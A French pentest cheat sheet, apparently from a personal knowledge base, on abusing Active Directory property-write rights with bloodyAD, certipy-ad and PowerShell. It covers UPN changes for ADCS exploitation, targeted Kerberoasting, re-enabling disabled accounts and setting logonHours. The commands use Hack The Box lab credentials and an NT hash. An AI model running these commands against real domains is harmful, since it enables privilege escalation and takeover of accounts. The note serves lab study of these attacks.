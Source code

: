 
Permet de modifier les propriétés spécifiées.

Lire toutes les propriétés d'un objet.

```
bloodyAD --host "dc01.mirage.htb" -d "mirage.htb" -u "mark.bbond" -p "1day@atime" -k get object "<object>"
```


### Public Information 

https://learn.microsoft.com/en-us/windows/win32/adschema/r-public-information

- User Principal Name -> Souvent utile pour exploiter l'ADCS

```
certipy-ad account -u '<user_controlled>' -hashes :24cbbd8d239d53284f030ee9b4ff3684 -k -dc-ip '10.10.11.78' -upn '<new_upn>'  -user '<target_user>' update -target "<target_dc>"
```

- Service Principal Name -> [[5. GenericWrite#1. Targeted Kerberoasting|TARGETED KERBEROASTING]]


### User Account Control

Permet de rajouter ou supprimer des flags à l'UAC.

Activer un compte désactivé en supprimant le flag ACCOUNTDISABLE :

```
bloodyAD --host "dc01.domain.local" -d "domain.local" -u "<controlled_user>" -p "password" -k remove uac -f "ACCOUNTDISABLE" <target_account>
```


### LogonHours

Si attribut vide, impossible de se connecter avec l'utilisateur.

```
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set object <target_account> logonHours
```

Ou avec module ActiveDirectory.

```
$bytes = [byte[]](255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255,255)

Set-ADUser -Credential $Cred -Identity <target_account> -Replace @{ logonHours = $bytes }
```



